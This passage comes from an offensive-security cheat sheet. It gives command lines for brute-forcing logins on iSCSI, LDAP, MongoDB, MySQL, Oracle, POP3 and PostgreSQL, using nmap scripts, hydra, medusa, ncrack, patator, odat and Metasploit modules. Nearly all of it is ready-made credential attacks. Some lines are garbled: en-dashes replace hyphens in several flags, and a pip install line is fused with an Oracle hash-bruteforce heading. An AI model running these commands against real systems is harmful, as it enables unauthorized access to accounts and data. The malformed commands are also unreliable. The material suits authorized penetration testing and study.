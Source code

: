 ```
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```
## LDAP
```
nmap --script ldap-brute -p 389 <IP>
```
## Mongo
```
nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login
```
## MySQL
```
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
```
## OracleSQL
```
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017
./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

为了使用 patator 进行 oracle_login 登录操作，你首先需要安装一些依赖文件：
```
pip3 install cx_Oracle --upgrade
Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):
 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```
## POP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```
## PostgreSQL
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
```